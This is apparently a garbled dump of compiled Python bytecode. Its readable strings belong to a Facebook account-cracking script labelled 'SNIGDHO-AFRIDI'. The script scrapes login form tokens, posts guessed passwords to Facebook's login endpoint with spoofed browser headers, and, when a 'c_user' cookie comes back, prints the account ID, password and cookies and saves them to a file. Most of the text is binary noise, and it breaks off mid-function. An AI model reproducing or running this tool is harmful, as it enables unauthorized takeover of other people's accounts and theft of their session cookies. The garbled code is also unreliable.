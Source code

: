 3�q�
3�
3�
3�4�4�4����/�/�1�/�/�/�0�0�1�1�E�%�'�'�'�
�5�\�\� � ��
�W�W�D�D�5��8�8�D�D�D�
D�
D�����B�����	�2�	�	�	� 	4�.�
��T���^�^��
����
��[�[�Q�[�[��[�[��[�4�[�[�!�[�Q�[�[�a�[�[�Q�[�[�TU�[�WY�[�[�\�\�\�
��:�A�:�:�:�;�;�;�
����� 	4� 	4�D���+�C��z�*�Z�8�C��!�!�(�3�s�3�3�3�3�	4�
	4� 	4� 	4� 	4� 	4� 	4� 	4� 	4� 	4� 	4� 	4���� 	4� 	4� 	4� 	4� 
�"�I�I�I�	�G�G�G�	�Q�
/�
/�Q�
/�
/��S��W�W���
/�
/�0�0�0�	�G�G�G�G�Gs   �C&H�H�Hc                 �B  � t           j        �                    dt          � dt          � t
          � dt          � dt          � dt          � t          t          �  �        � ��  �         t           j        �                    �   �          t          j
        �   �         }	 |D �]d}t          j        t           �  �        }|�                    d�  �        j        }t'          j        dt+          |�  �        �  �        �                    d�  �        t'          j        dt+          |�  �        �  �        �                    d�  �        t'          j        d	t+          |�  �        �  �        �                    d�  �        t'          j        d
t+          |�  �        �  �        �                    d�  �        dd| |dd
�	}dddddddddddddd|d�}|�                    d||��  �        j        }|j        �                    �   �         �                    �   �         }	d|	v r�d �                    d!� |j        �                    �   �         �                    �   �         D �   �         �  �        }
t'          j        d"|
�  �        d#         }t=          d$t          � d%t          � d&|� d'|� ��  �         t=          d$t          � d(t          � d)|
� ��  �         t?          d*d+�  �        �                    |d,z   |z   d,z   |
z   d-z   �  �         t          �                     | �  �          n��ft
          dz
  ad S # tB          $ r}Y d }~d S d }~ww xY w).Nz

[38;5;48m[SNIGDHO-AFRIDI] r�  zOK:z~~zhttps://free.facebook.comzname="lsd" value="(.*?)"r�  zname="jazoest" value="(.*?)"zname="m_ts" value="(.*?)"zname="li" value="(.*?)"r�  zLog In)	�lsd�jazoest�m_ts�li�
try_number�unrecognized_tries�email�pass�loginzm.facebook.com�GET�httpsz�text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9zgzip, deflate, brzen-US,en;q=0.9zhttps://m.facebook.comz@"Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"z?0z	"Windows"�document�navigatezsame-originr�  )�	authority�method�scheme�acceptzaccept-encodingzaccept-language�refererz	sec-ch-uazsec-ch-ua-mobilezsec-ch-ua-platformzsec-fetch-destzsec-fetch-modezsec-fetch-sitezupgrade-insecure-requestsz
user-agentz\https://www.facebook.com/login/device-based/regular/login/?refsrc=deprecated&lwv=100&refid=8)�data�headers�c_user�;c                 �$   � g | ]
\  }}|d z   |z   ��S )r   r�  )r  �key�values      r�  �
<listcomp>z_RNDM_1_.<locals>.<listcomp>r  s$   � �a�a�a���U�s�3�w�u�}�a�a�ar�  zc_user=(.*);xsr   z
